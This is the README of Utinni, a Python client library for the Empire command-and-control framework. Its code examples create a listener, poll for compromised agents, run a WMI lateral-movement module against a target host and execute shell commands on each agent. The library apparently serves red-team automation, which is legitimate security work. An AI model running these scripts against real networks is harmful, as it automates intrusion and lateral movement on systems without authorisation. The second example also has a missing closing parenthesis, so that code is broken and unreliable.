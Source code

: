 <p align="center">
  <img src="https://user-images.githubusercontent.com/5151193/107455866-b6778d80-6b0c-11eb-9e7d-14221e2aa582.png" alt="Utinni" height="300"/>
</p>

# Utinni

An async Python client library for Empire's RESTful API (Only works with [BC-Security Empire fork](https://github.com/BC-SECURITY/Empire))

## Installing

`pip3 install utinni`

## Examples

Simple example showing basic usage:

```python
import asyncio
from utinni import EmpireApiClient

async def main():
    # Create client instance
    empire = EmpireApiClient(host="localhost", port="1337")

    # Login to Empire's RESTful API
    await empire.login("username", "password")
    print("* Logged into Empire")

    # Create a listener
    await empire.listeners.create(listener_type="http", name="Utinni", additional={"Port": 8443})

    print("* Waiting for agents...")
    while True:
        # Poll for new agents every 1 sec
        for agent in await empire.agents.get():

            #Print some basic info on the new agent
            print(f"+ New agent '{agent.name}' connected: {agent.domain}\\{agent.username}")

            # Execute a module on the agent
            module_output = await agent.execute(
                    "powershell/lateral_movement/invoke_wmi",
                    options={
                        "ComputerName": "targethost",
                        "Listener": "Utinni",
                    },
                )

            print(f"++ Executed invoke_wmi module on agent '{agent.name}'")
            print(f"++ Module output: {module_output}")

        await asyncio.sleep(1)

# Start the event loop
asyncio.run(main())
```

Example with background tasks:

```python
import asyncio
from utinni import EmpireApiClient

async def agent_poller(empire):
    # Poll for new agents every 1 sec
    print("* Waiting for agents...")
    while True:
        for agent in await empire.agents.get():
            #Print some basic info on the new agent
            print(f"+ New agent '{agent.name}' connected: {agent.domain}\\{agent.username}")

            # Do whatever you want with the agent object here and it won't block the main thread
            # In this example executing we're executing a shell command
            cmd_output = await agent.shell("dir")

            print("++ Executed shell command")
            print(f"++ Output: {cmd_output}")

        await asyncio.sleep(1)

async def main():
    # Create client instance
    empire = EmpireApiClient(host="localhost", port="1337")

    # Login to Empire's RESTful API
    await empire.login("username", "password")
    print("* Logged into Empire")

    # Create a listener
    await empire.listeners.create(listener_type="http", name="Utinni", additional={"Port": 8443})

    # Start the 'agent_poller' coroutine as a background task 
    agent_poller_task = asyncio.create_task(agent_poller(empire)

    # Do more stuff here as this thread isn't blocked.
    available_empire_modules = await empire.modules.get()

    # Wait for the agent_poller_task to complete
    # in this example it won't ever finish since it's in a infinite loop.
    await agent_poller_task

# Start the event loop
asyncio.run(main())
```

## FAQ

**1. Why?**

This was originally made for the [DeathStar](https://github.com/byt3bl33d3r/DeathStar) project, the author then realized it would be useful as a stand-alone library.

**2. Why are there no sync APIs?**

Cause it doesn't make sense. 99% of all use cases you're going to want to call/execute/query/do multiple things at the same time.
